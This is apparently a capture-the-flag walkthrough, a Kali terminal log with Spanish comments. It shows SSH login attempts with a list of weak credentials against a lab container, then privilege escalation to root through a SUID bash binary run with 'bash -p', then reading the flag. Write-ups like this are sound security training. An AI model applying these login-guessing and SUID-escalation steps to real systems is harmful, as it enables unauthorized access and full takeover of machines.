

#a partir de credenciales en “usuarios.txt" se intenta ingreasr a ssh
┌──(kali㉿kali)-[~]
└─$ cat usuarios.txt
carlos:qwerty
maria:123456
guest:guest
admin:admin
test:user123
alberto:admin123
#usuario carlos denegado
┌──(kali㉿kali)-[~]
└─$ ssh carlos@172.17.0.2
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is: SHA256:rjjRnPRpNdKwXsWQbmhJX4EzLeRCp1JfSctiF6qUmHU
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
carlos@172.17.0.2's password:
Permission denied, please try again.
#usuario maria denegado
┌──(kali㉿kali)-[~]
└─$ ssh maria@172.17.0.2
maria@172.17.0.2's password:
Permission denied, please try again.
#usuario guest denegado
┌──(kali㉿kali)-[~]
└─$ ssh guest@172.17.0.2
guest@172.17.0.2's password:
Permission denied, please try again.
#usuario admin denegado
┌──(kali㉿kali)-[~]
└─$ ssh admin@172.17.0.2
admin@172.17.0.2's password:
Permission denied, please try again.
#usuariotest denegado
┌──(kali㉿kali)-[~]
└─$ ssh test@172.17.0.2
test@172.17.0.2's password:
Permission denied, please try again.
#usuario alberto
┌──(kali㉿kali)-[~]
└─$ ssh alberto@172.17.0.2
alberto@172.17.0.2's password:
Linux 21943882c6dd 6.18.12+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.18.12-1kali1 (2026-02-25) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
-bash-5.2$
#comando whoami para saber usuario
-bash-5.2$ whoami
alberto
#comando id para ver grupos
-bash-5.2$ id
uid=1000(alberto) gid=1000(alberto) groups=1000(alberto)
#comando sudo -l para corroborar permisos de administrador
-bash-5.2$ sudo -l
[sudo] password for alberto:
Sorry, user alberto may not run sudo on 21943882c6dd.
#comando ls -al para listar directorios
-bash-5.2$ ls -al
total 20
drwx------ 1 alberto alberto 4096 Nov 27 2025 .
drwxr-xr-x 1 root root 4096 Nov 27 2025 ..
-rw-r--r-- 1 alberto alberto 220 Jul 30 2025 .bash_logout
-rw-r--r-- 1 alberto alberto 3526 Jul 30 2025 .bashrc
-rw-r--r-- 1 alberto alberto 807 Jul 30 2025 .profile
-bash-5.2$
#ejecuto comando para buscar binarios con suid
-bash-5.2$ find / -perm -4000 -type f 2>/dev/null
/usr/sbin/exim4
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/umount
/usr/bin/bash
/usr/bin/su
/usr/bin/mount
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/sudo
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
#El binario original bash no tienen normalmente el bit suid activo
#se ejecuta con -p para que respete y mantenga los privilegios de propietario
-bash-5.2$ /usr/bin/bash -p
bash-5.2#
#se busca la bandera en root
bash-5.2# cd /root
bash-5.2# ls
flag.txt
bash-5.2# cat flag.txt
@n0n_h@CKEr
#flag: @n0n_h@CKEr
